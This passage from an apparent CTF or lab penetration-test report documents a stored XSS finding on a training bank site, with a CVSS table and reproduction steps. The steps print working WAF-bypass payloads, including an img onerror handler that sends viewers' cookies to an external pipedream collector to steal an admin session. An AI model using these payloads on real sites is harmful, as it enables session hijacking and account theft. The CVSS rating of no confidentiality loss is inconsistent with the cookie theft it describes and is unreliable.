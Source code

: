 For more information visit [OWASP On SSRF prevention](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html) and [PortSwigger's File Upload Functionality](https://portswigger.net/kb/issues/00500980_file-upload-functionality).

<div class="pagebreak"> </div>

## 1.3. ctfproxy2.quoccabank.com/api/science-tomorrow (Stored XSS)
**Threat - Stored XSS in Comment Field**
### Details
| Metric                   | Description |
| ------------------------ | ----------- |
| Access Vector (AV)       | **Network (N)** - The vulnerable component is bound to the network stack, i.e. remotely exploitable.    |
| Attack Complexity (AC)   | **Low (L)** - Specialized access conditions or extenuating circumstances do not exist. An attacker can expect repeatable success when attacking the vulnerable component.|
| Privileges Required (PR) | **None (N)** -  The attacker is unauthorized prior to attack, and therefore does not require any access to settings or files of the the vulnerable system to carry out an attack. |
| User Interaction (UI)    | **Required (R\)**  - Successful exploitation of this vulnerability requires a user to take some action before the vulnerability can be exploited. In this case, an Admin needs to view the page specified by the attacker.       |
| Scope (S)                | **Changed (C\)** - An exploited vulnerability can affect resources beyond the security scope managed by the security authority of the vulnerable component. In this case, the vulnerable component and the impacted component are different and managed by different security authorities.    |
| Confidentiality (C\)     | **None (N)** - There is no loss of confidentiality within the impacted component.        |
| Integrity (I)            | **None (N)** - There is no loss of integrity within the impacted component.       |
| Availability (A)         | **High (H)** - There is a total loss of availability, resulting in the attacker being able to fully deny access to resources in the impacted component; this loss is either sustained (while the attacker continues to deliver the attack) or persistent (the condition persists even after the attack has completed).|

**CVSS Base Score: 7.4 (HIGH)**
### Steps to Reproduce
This threat is located on the ctfproxy2.quoccabank.com/api/science-tomorrow domain, pertaining to how the WAF filters user input in the comment field.
- Initial findings show that there is a WAF present in deny-listing comments that contain scripts to cause potential XSS vulnerabilities. 

![](https://i.imgur.com/SC4N9IK.png)
*Example: Trying to enter `<script>alert(1)</script>` will show this message*

- However, this filter/deny-list is by-passable. We can start by re-using the same payload as from the science-today.quoccabank.com equivalent. Note that we will need to setup a public-facing domain again as in the predecessor site such as pipedream or webhook.
```javascript=
<ScRiPt>fetch("https://en5v13isu6609oe.m.pipedream.net/?a=" + document.cookie)</ScRiPt>
```
- `<script>` calls are deny-listed, but we can still load images into comments using `<img>` tags. There also exists a `onerror` attribute to images that will execute some script when the image cannot be loaded. 
- We thus can specify the image tag to write to our website with the cookie of the viewer.
- Our final payload is:
```javascript=
<img src=a onerror=document.location='https://en5v13isu6609oe.m.pipedream.net/?a='+document.cookie>abc
```
- Once sent, click on the report admin button in order to notify the admin account to view the page. This will steal the cookies and send it to our domain.
![](https://i.imgur.com/5Rz2juI.png)
 *The response containing the Admin's cookies is seen above*
